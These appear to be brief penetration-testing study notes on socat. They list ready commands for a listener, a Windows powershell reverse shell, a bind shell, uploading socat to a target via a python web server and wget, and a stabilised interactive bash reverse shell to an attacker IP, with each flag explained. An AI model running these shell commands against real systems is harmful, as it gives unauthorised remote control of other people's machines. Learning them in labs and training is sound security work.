 
*point to point connector ie. keyboard to port, file to port, port to port*

### Reverse Shells
- `socat TCP-L:PORT -`, basic listener
- `socat TCP:MY_IP:PORT EXEC:powershell.exe,pipes`, listener on Windows (pipes for unix style I/O)
#### Bind
*run the previous commands on the target*
 - `socat TCP:TARGET_IP:PORT` - *on local machine*

### Interactive Reverse Shell (tty)
1.  ``socat TCP-L:PORT FILE:`tty`,raw,echo=0`` , listens for connection giving interactive shell, but it must have socat installed
2. upload socat binary to target ( `python3 -m http.server` in socat dir -> `wget` on target)
3. `socat TCP:MY_IP:PORT EXEC:"bash -li",pty,stderr,sigint,setsid,sane` , connects target giving interactive shell
>bash -li, -l is "login shell" meaning, ini files are read from /home/*user*, and -i means interactive
> pty (pseudo-teletype), allocates a pseudoterminal on the target via a "pipe" -- part of the stabilization process
> stderr, makes sure that any error messages get shown in the shell (often a problem with non-interactive shells)
> sigint, passes any Ctrl + C commands through into the sub-process, allowing us to kill commands inside the shell
> setsid, creates the process in a new session
> sane, stabilises the terminal, attempting to "normalise" it.